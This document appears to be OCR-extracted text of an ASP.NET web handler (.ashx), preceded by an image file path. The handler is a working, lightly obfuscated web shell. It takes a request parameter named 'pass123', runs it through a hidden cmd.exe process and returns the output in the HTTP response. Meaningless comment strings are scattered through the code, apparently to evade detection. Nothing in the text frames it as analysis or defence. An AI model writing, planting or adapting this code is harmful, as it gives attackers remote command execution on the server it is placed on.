 <%@ WebHandler Language = "CS" Class="Handler3" %>using System;using System.Collections.Generic; using System.Diagnostics;using System.Web;public class Handler3 : IHttpHandler { public void ProcessRequest (HttpContext context) { string B81f9O = context.Request["pass123"];System.Diagnostics.Process p = new System.Diagnostics.Process();/*Z#￥h*u@!h2v981E41Y*/p.StartInfo./*Z#￥h*u@!h2v981E41Y*/FileName = "cmd.exe";    /*Z#￥h*u@!h2v981E41Y*/p.StartInfo.UseShellExecute = false;/*Z#￥h*u@!h2v981E41Y*/p.StartInfo.RedirectStandardInput = true;p.StartInfo.RedirectStandardOutput = true;p.StartInfo.RedirectStandardError = true;p.StartInfo.CreateNoWindow = true;p.Start();p.StandardInput.WriteLine(B81f9O);p.StandardInput.Close();context.Response.Write(p.StandardOutput.ReadToEnd());context.Response.End();}public bool IsReusable { get { return false;}}}
